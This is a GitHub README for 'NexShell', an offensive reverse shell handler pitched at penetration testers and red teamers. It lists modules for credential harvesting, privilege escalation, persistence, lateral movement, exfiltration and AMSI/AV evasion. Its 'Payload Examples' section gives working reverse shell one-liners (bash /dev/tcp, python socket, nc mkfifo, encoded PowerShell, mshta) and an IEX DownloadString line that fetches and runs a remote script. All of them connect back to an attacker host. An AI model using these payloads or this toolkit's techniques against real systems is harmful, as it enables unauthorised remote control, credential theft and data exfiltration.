

# NexShell — Elite Reverse Shell Commander

<div align="center">

```
   ███╗   ██╗███████╗██╗  ██╗███████╗██╗  ██╗███████╗██╗     ██╗
   ████╗  ██║██╔════╝╚██╗██╔╝██╔════╝██║  ██║██╔════╝██║     ██║
   ██╔██╗ ██║█████╗   ╚███╔╝ ███████╗███████║█████╗  ██║     ██║
   ██║╚██╗██║██╔══╝   ██╔██╗ ╚════██║██╔══██║██╔══╝  ██║     ██║
   ██║ ╚████║███████╗██╔╝ ██╗███████║██║  ██║███████╗███████╗███████╗
   ╚═╝  ╚═══╝╚══════╝╚═╝  ╚═╝╚══════╝╚═╝  ╚═╝╚══════╝╚══════╝╚══════╝
```

**Nexus of Shell Operations**


</div>

> Elite reverse shell commander for penetration testers and red teamers.  
> The operator's tool — built for those who demand more than netcat.

---

## Demo

> Running on **Windows** (PowerShell) — zero dependencies, zero setup.



<details>
<summary><b>Full terminal output — <code>python nexshell.py</code> → <code>help</code></b></summary>

```
   ███╗   ██╗███████╗██╗  ██╗███████╗██╗  ██╗███████╗██╗     ██╗
   ████╗  ██║██╔════╝╚██╗██╔╝██╔════╝██║  ██║██╔════╝██║     ██║
   ██╔██╗ ██║█████╗   ╚███╔╝ ███████╗███████║█████╗  ██║     ██║
   ██║╚██╗██║██╔══╝   ██╔██╗ ╚════██║██╔══██║██╔══╝  ██║     ██║
   ██║ ╚████║███████╗██╔╝ ██╗███████║██║  ██║███████╗███████╗███████╗
   ╚═╝  ╚═══╝╚══════╝╚═╝  ╚═╝╚══════╝╚═╝  ╚═╝╚══════╝╚══════╝╚══════╝
              Nexus of Shell Operations  ·  Elite Reverse Shell Commander

  Version 1.0.0  *  by vulnquest58  *  Platform: Windows  Escape: F12

[+]   Listening on 0.0.0.0:4444 [Listener [1]]


(NexShell)> help

  Session Operations
    run         · [module] [args] — Run an operational module
    upload      · <glob|URL> — Upload files to target
    download    · <glob> — Download files from target
    open        · <glob> — Download and open files locally
    maintain    · [N] — Maintain N active shells per host
    spawn       · [Port] [Host] — Spawn a new session
    upgrade     · — Upgrade shell to PTY
    exec        · <command> — Execute a remote command
    script      · <local|URL> — Run script in-memory on target
    portfwd     · <host:port -> host:port> — Port forwarding
    tag         · [SessionID] [label] — Tag a session with a custom name
    note        · [text] — Add a note to the current session
    quickenum   · — Run QuickEnum on Linux target (in-memory)
    credharvest · — Run CredentialHarvester on Linux target
    privesc     · — Run PrivEsc Advisor on Linux target
  Session Management
    sessions · [ID] — List or interact with sessions
    use      · [SessionID|none] — Select a session
    interact · [SessionID] — Interact with a session
    kill     · [SessionID|*] — Kill session(s)
    dir|.    · [SessionID] — Show session local folder
  Shell Management
    listeners  · [add -p <port>|stop <id>] — Manage listeners
    payloads   · [interface] [--obfuscate] [--linux|--windows|--all] — Generate payloads
    connect    · <Host> <Port> — Connect to a bind shell
    Interfaces · — Show local network interfaces
  Miscellaneous
    help        · [command] — Show help
    history     · — Show command history
    cd          · [path] — Change NexShell working directory
    reset       · — Reset local terminal
    SET         · [option] [value] — Show/set options
    exit|quit|q · — Exit NexShell

(NexShell)>
```

</details>

---

## Features

### Cross-Platform Shells
| Feature | Linux | Windows | macOS |
|---------|:-----:|:-------:|:-----:|
| Auto PTY upgrade | ✅ | ✅ (ConPtyShell) | ✅ |
| Shell quality detection | ✅ | ✅ | ✅ |
| OS/privilege auto-detect | ✅ | ✅ | ✅ |
| Session logging | ✅ | ✅ | ✅ |
| Session tags & notes | ✅ | ✅ | ✅ |
| Jitter/stealth mode | ✅ | ✅ | ✅ |
| In-memory execution | ✅ | ✅ | ✅ |

### Payload Arsenal
- **Linux**: bash, sh, python3, perl, ruby, php, nc, ncat, busybox
- **Windows**: PowerShell (basic/encoded), ConPtyShell PTY, MSHTA, WMIC, Regsvr32 (LOLBins)
- **Obfuscation**: base64, hex encoding for WAF/AV evasion
- **AMSI Bypass**: 4 variants for PowerShell AV evasion

### Operational Modules

| Module | OS | Description |
|--------|:--:|-------------|
| `quickenum` | Linux | Fast system enumeration (SUID, sudo, cron, network) |
| `privesc` | Linux | PrivEsc advisor — GTFOBins, SUID, capabilities |
| `credharvest` | Linux | Credential harvester — configs, history, env files |
| `win-enum` | Windows | System enumeration (AV, shares, domain) |
| `win-privesc` | Windows | PrivEsc: AlwaysInstallElevated, unquoted paths, services |
| `win-creds` | Windows | Credentials: SAM, browser, WinSCP, LAPS |
| `ad-recon` | Windows | AD enumeration without external tools |
| `ad-kerberoast` | Windows | Find Kerberoastable SPNs |
| `ad-asreproast` | Windows | Find ASREPRoastable accounts |
| `persist` | Both | Persistence mechanisms (crontab, systemd, registry, WMI) |
| `lateral` | Both | Lateral movement (SSH, DCOM, WMI, Pass-the-Hash) |
| `container` | Linux | Container/Docker/K8s escape techniques |
| `exfil` | Both | Data exfiltration (HTTP, DNS, SMB, ICMP) |

---

## Installation

### Linux / macOS / BSD

```bash
git clone https://github.com/vulnquest58/nexshell
cd nexshell
chmod +x setup.sh
./setup.sh install
```

### Standalone (no install)

```bash
# Python 3.6+ required — no external dependencies
python3 nexshell.py
```

### Kali Linux (recommended)

```bash
git clone https://github.com/vulnquest58/nexshell ~/.tools/nexshell
echo 'alias nexshell="python3 ~/.tools/nexshell/nexshell.py"' >> ~/.zshrc
source ~/.zshrc
```

### Windows (PowerShell)

```powershell
git clone https://github.com/vulnquest58/nexshell
cd nexshell
python nexshell.py
```

---

## Quick Start

```bash
# Start listener on default port 4444
nexshell

# Listen on multiple ports
nexshell -p 4444,5555,9001

# Show ALL payloads (Linux + Windows) for your IP
nexshell -a

# Show Linux payloads only
nexshell -a --linux

# Show Windows payloads with obfuscation
nexshell -a --windows --obfuscate

# Show AMSI bypass snippets
nexshell --amsi

# Connect to a bind shell
nexshell -c 10.10.10.10 -p 4444

# Auto-run QuickEnum on every new shell
nexshell --auto-enum

# Stealth mode (no disk writes on target)
nexshell --stealth --jitter 500
```

---

## Main Menu Commands

Once a session is received, press `F12` to detach and access the main menu:

```
Session Operations:
  run            Run a module (quickenum, privesc, win-enum, ad-recon...)
  upload         Upload files to target
  download       Download files from target
  exec           Execute a remote command
  upgrade        Upgrade shell to PTY
  spawn          Spawn additional sessions
  maintain       Auto-maintain N shells per host
  tag            Tag a session with a custom label
  note           Add notes to a session
  persist        Show persistence payloads for current OS
  lateral        Show lateral movement techniques
  container      Run container escape check
  quickenum      Quick Linux enumeration
  credharvest    Linux credential harvester
  privesc        Linux privilege escalation advisor

Session Management:
  sessions       List all active sessions
  use <ID>       Select a session
  interact <ID>  Attach to a session
  kill <ID|*>    Kill session(s)

Shell Management:
  listeners      Manage listeners (add/stop)
  payloads       Generate reverse shell payloads
  connect        Connect to a bind shell
  Interfaces     Show network interfaces
```

---

## Module Usage Examples

```
# Linux target
(NexShell)─(Session [1] · user)> run quickenum
(NexShell)─(Session [1] · user)> run privesc
(NexShell)─(Session [1] · user)> run credharvest

# Windows target
(NexShell)─(Session [2] · SYSTEM)> run win-enum
(NexShell)─(Session [2] · SYSTEM)> run win-privesc
(NexShell)─(Session [2] · SYSTEM)> run win-creds

# Active Directory
(NexShell)─(Session [2] · user)> run ad-recon
(NexShell)─(Session [2] · user)> run ad-kerberoast
(NexShell)─(Session [2] · user)> run ad-asreproast

# Persistence (auto-detects OS)
(NexShell)─(Session [1] · root)> run persist

# Lateral movement options
(NexShell)─(Session [1] · root)> run lateral

# Container escape check
(NexShell)─(Session [1] · user)> run container

# Exfiltration techniques
(NexShell)─(Session [1] · root)> run exfil
```

---

## Payload Examples

### Linux
```bash
bash -i >& /dev/tcp/10.10.14.1/4444 0>&1
python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("10.10.14.1",4444));...'
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.1 4444 >/tmp/f
```

### Windows (PowerShell)
```powershell
powershell -nop -NonI -ep bypass -enc <base64_encoded_reverse_shell>
mshta vbscript:Execute("CreateObject(""WScript.Shell"").Run ""powershell -enc ..."",0:close")
```

### Windows (ConPtyShell — Full PTY)
```powershell
IEX(New-Object Net.WebClient).DownloadString('https://.../Invoke-ConPtyShell.ps1');
Invoke-ConPtyShell -RemoteIp 10.10.14.1 -RemotePort 4444 -Rows 50 -Cols 220
```

---

## Architecture

```
nexshell/
├── nexshell.py          # Main engine (standalone, no deps)
├── modules/
│   ├── __init__.py
│   ├── windows.py       # Windows payloads, AMSI bypass, PrivEsc, CredHarvest
│   └── ops.py           # Persistence, Lateral, AD Recon, Container Escape, Exfil
├── payloads/
│   └── __init__.py
├── setup.sh             # Cross-platform installer
└── README.md
```

---

## Inspired by

- [penelope](https://github.com/brightio/penelope) by @brightio — the foundation
- [ConPtyShell](https://github.com/antonioCoco/ConPtyShell) — Windows PTY
- [nishang](https://github.com/samratashok/nishang) — PowerShell attack toolkit
- [BloodHound](https://github.com/BloodHoundAD/BloodHound) — AD attack paths

---

## Author

**vulnquest58**  
HackMyVM Rank #77 · HTB · CTF Player  
[vulnquest58.github.io](https://vulnquest58.github.io)

---

> *"The best tool is the one you own."*
